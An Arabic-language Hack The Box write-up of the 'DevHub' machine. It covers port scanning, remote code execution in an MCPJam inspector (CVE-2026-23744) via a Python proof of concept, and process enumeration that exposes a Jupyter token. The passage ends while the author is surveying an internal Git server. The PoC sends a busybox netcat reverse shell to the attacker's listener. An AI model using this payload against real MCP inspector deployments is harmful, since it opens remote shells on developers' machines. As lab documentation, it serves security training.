









DevHUb HTB Write-up
توثيق تقني محفوظ من المصدر الأصلي في Notion، يشمل الخطوات والأوامر والنتائج ولقطات الشاشة المتاحة.
العودة إلى تقارير CTFسيكون هذا التقرير بمثابة توثيق لاختبار اختراق الة DevHub على منصة Hack The Box في الموسم ال 11<br>
اول شي طبيعي نفعله هو بدء الالة والاتصال بال vpn واختبار الاتصال بالالة باستخدام اتصال ping

نقوم بفحص المنافذ باستخدام nmap وسنطلب منه ان يفحص الاصدارات والخدمات وتشغيل الاسكريبتات الافتراضية من خلال استخدام الرمز {sVC-} وسنطلب منه تجاهل فحص اذا كان متصل ام لا لاننا بالفعل نعلم انه متصل وسنتجاهل هذا الامر من خلال الرمز {Pn-}

مبدايا وبعد فحص اولي نكتشف منفذين منفذ {ssh : 22} & { http :80}
نلاحظ اصدار OpenSSH 8.9 الحديث نسبيا ولاتوجد ثغرات عامة في هذا الاصدار حتى وقت كتابة التقرير <br>نتجه الى استكشاف الويب على منفذ 80 ولاحظ انه لا يتعامل مع عناوين ip و يقوم بتوجيه اي اتصالات تاتي فقط الى اسم النطاق DevHub.htb قم بتعديل ملف etc/hosts/ ووضع اسم النطاق المطلوب واستكشافه عبر المتصفح

استكشف الصفحة الصفحة تكشف لنا عن معلومات مهمة جدا وهي :
<columns>
<column ratio="50">

</column>
<column ratio="50">
1- المعلومة الاولى هي عن أداة لتطوير وتصحيح بروتوكول سياق النموذج (MCP). يستخدمها فريق التطوير لبناء واختبار خوادم MCP. وتعمل على المنفذ 6274 mcpjam inspector بروتوكول الـ MCP بيُستخدم لربط نماذج الذكاء الاصطناعي (LLMs) بأدوات وسيرفرات خارجية لتنفيذ كود أو قراءة ملفات. لو البورت ده مفتوح خارجي أو نقدر نتفاعل مع الـ Inspector، ممكن يكون فيه طريقة لعمل ثغرة تنفيذ أوامر عن بُعد أو قراءة ملفات حساسة وبعد طلب ذلك المنفذ عبر المتصفح نجد الاتي :
</column>
</columns>

وبالبحث عن MCPJam Version: v1.4.2 نجد انه مصاب بثغرة خطيرة وهيا حديثة نسبيا تم التبليغ عنها قبل حوالي ثلاثة او اربع اشهر من تاريخ كتابة هذا التقرير وحفظت تحت اسم CVE-2026-23744 لسهولة تتبعها وكانت عباره عن ثغرة تنفيذ أوامر عن بُعد (RCE) خطيرة في أداة فحص MCPJam تستهدف المطورين وقمت بالبحث عن اثبات مفهوم(PoC) لهذه الثغرة وجدت بالفعل واحد على جيت هاب :

كان يجب علينا اجراء بعض التعدييلات على ملف بايثون الذي سيقوم بعملية الاستغلال ليناسب وضع الالة المستهدفة لان الكود كان يرسل الطلب عببر بروتوكول https لكن الالة التي نستهدفها تعمل عبر http لذلك قمت بالتعديل وفتحت المستمع كالتالي nc -lvnp 5555 وحصلت على جلسة كمستخدم mcp-dev
<columns>
<column ratio="50">


</column>
<column ratio="50">
import json
target = "http://devhub.htb:6274"
ip = "Your-IP"
port = "5555"
url = f'{target}/api/mcp/connect'
data = {
"serverConfig": {
"command": "busybox",
"args": [
"nc",
f"{ip}",
f"{port}",
"-e",
"/bin/bash"
],
"env": {}
},
"serverId": "213j1l3jkljkl3j"
}
response = requests.post(url, json=data, verify=False)
print(response.status_code)
print(response.text)
</column>
</columns>
ومن هنا ننتقل الى المعلوملة الثانية التي وجدناها في صفحة الويب وهي بيئة jupyter التي تعمل داخليا فقط
---
<columns>
<column ratio="50">

</column>
<column ratio="50">
2-المعلومة الثانية هي عن لوحة تحليلات البيانات
بيئة تحليلية قائمة على Jupyter لمعالجة البيانات وعرضها بصريًا. الوصول مقتصر على فريق المحللين بيئة تحليلية مبنية على Jupyter Notebook. مكتوب بوضوح: Internal Only - localhost:8888.
</column>
</columns>
السيرفر شغال محلياً فقط (localhost) على بورت 8888 ومحمي من الوصول الخارجي دي إشارة واضحة جداً إننا هنحتاج SSRF (Server-Side Request Forgery) أو Port Forwarding / SSH Tunneling بمجرد ما نلاقي نقطة دخول وبنا اننا الان حصلنا على شيل مستخدم بسيط باسم mcp-dev سنقوم بفحص بيئة jupyter لمحاولة تصعيد الصلاحيات باستخدام الامر التالي الذي احض لنا بعض المعلومات المهمة :
mcp-dev@devhub:/$ ps aux | grep jupyter
analyst 1069 0.0 2.4 182536 96636 ? Ss May31 0:05
/home/analyst/jupyter-env/bin/python3 /home/analyst/jupyter-env/bin/jupyter-lab
--ip=127.0.0.1 --port=8888
--no-browser --notebook-dir=/home/analyst/notebooks
--ServerApp.token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7 --ServerApp.password= --ServerApp.allow_origin= --ServerApp.disable_check_xsrf=False
root 1076 0.0 0.7 37376 28644 ? Ss May31 0:05 /home/analyst/jupyter-env/bin/python3 /opt/opsmcp/server.py
mcp-dev 2031 0.0 0.0 6828 2104 pts/0 S+ 00:36 0:00 grep --color=auto jupyterهناك مستخدم باسم *analyst هو المسؤل عن تشغيل بيئة jupyter داخل النظام وحصلنا ايضا على الرمز الخاص بهذه العملية a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7 وكما اصبحنا نعلم الان انه يعمل داخليا عبر 127.0.0.1:8888 *
---
3-المعلومة الثالثة هي عن خادم Git داخلي للتحكم في الإصدارات والتعاون. توثيق المشروع ونصوص النشر
<columns>
<column ratio="50">

</column>
<column ratio="50">
- سيرفر Git داخلي لتخزين الأكواد، ومكتوب إنه في حالة صيانة (
Maintenance Mode). - أحياناً في وضع الصيانة بيكون فيه ملفات
.gitمكشوفة أو الـ repository نفسه ممكن نعمل له enumeration لو لقينا مسار السيرفر (زي لو كان شغال على Gitea أو GitLab أو مجرد مسار مخفي)
</column>
</columns>
---